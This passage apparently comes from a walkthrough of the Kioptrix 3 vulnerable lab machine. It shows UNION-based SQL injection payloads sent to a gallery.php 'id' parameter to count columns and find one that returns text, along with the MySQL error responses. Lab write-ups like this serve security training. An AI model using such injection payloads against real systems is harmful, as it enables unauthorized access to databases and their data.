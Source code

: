    This suggests that there are 6 columns that are being returned. So, we need to craft our `UNION` payloads in such a way that they return 6 columns.

2. Determine the column that contains text

   - Sending all `NULL` to verify there are 6 columns

     ![all_null](./.images/all_null.png)

     Note the error returned here: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1`

   - Sending `'a'` for each column to test which one can return text

     ```
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20%27a%27,%20NULL,%20NULL,%20NULL,%20NULL,%20NULL--
     	--> Unknown column 'a' in 'where clause'
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20%27A%27,%20NULL,%20NULL,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20%27A%27,%20NULL,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20%27A%27,%20NULL,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20NULL,%20%27A%27,%20NULL--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     
     http://kioptrix3.com/gallery/gallery.php?id=null%20UNION%20SELECT%20NULL,%20NULL,%20NULL,%20NULL,%20NULL,%20%27A%27--
     	--> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') order by dateuploaded desc limit 1' at line 1
     ```
